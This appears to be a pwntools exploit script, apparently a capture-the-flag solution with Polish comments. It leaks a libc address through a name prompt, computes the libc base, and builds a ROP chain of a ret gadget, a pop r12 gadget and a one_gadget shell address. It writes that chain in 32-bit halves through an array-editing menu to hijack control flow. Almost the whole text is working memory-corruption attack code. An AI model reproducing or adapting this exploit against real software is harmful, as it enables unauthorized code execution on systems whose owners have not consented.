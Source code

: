 ```py
libc = ELF('./libc-2.31.so', checksec=False)

if args.REMOTE:
    p = remote(ADDRESS,PORT)
else:
    p = process(binary.path)    

def enter_name (name):
    p.sendlineafter(b">",b'1')
    p.sendafter(b"name",name)    #\xd3 #tyle ma wyswietlic
    p.sendlineafter(b"year",b'+')
    p.sendlineafter(b"month",b'-')
    p.sendlineafter(b"day",b'+')
    p.recvuntil(b'your ID is')
    ID=p.recvline().strip()
    return ID
    
def generate_numbers_0 ():
    p.sendlineafter(b">",b'2')
    p.sendlineafter(b"to change?", b'0')

def set_libc_adresses (libc):
    ID=enter_name(b'\x00')
    libc_leak=int(ID)-0x1eb980 #leak
    libc.address=libc_leak
    system=libc.address+0x55410
    puts = libc.sym['puts']
    
    rop=ROP(libc)
    pop_r12 = rop.find_gadget(['pop r12', 'ret'])[0]     
    ret = rop.find_gadget(['ret'])[0]
    one_gadget=libc.address+0xe6c7e
    log.info(f"pop rdi gadget: {hex(one_gadget)}")
    info (f"libc: {int(libc_leak):#x}")

    return ret,one_gadget,pop_r12
    
def set_payload ():
    ile_sprawdzic_1=b'18' #ret,one_gadget,pop_r12,0

    p.sendlineafter(b">", b'2')
    p.sendlineafter(b"How many numbers do you want to change?", ile_sprawdzic_1)    
    for i in range (int(ile_sprawdzic_1.decode())-8): #4 payloads*2    
        liczba = 0
        p.sendlineafter(b'Enter new number:', bytes(str(liczba), 'utf-8'))
    
    payload=[ret,pop_r12,0,one_gadget]
    for rop in payload:
        liczba=rop
    # Rozbicie liczby na dolne i górne 32 bity:
        low  = liczba & 0xffffffff
        high = (liczba >> 32) & 0xffffffff

        # Konwersja na łańcuchy znaków zakodowane jako bajty:
        low_bytes  = str(low).encode()
        high_bytes = str(high).encode()

        # Wysyłanie wartości – przykładowo najpierw low, potem high:        
        p.sendlineafter(b'Enter new number:', low_bytes)
        p.sendlineafter(b'Enter new number:', high_bytes)
                
ret,one_gadget,pop_r12=set_libc_adresses(libc)
#ret,pop_rdi,system,binsh = set_libc_adresses (libc) #doesn't work!!!
```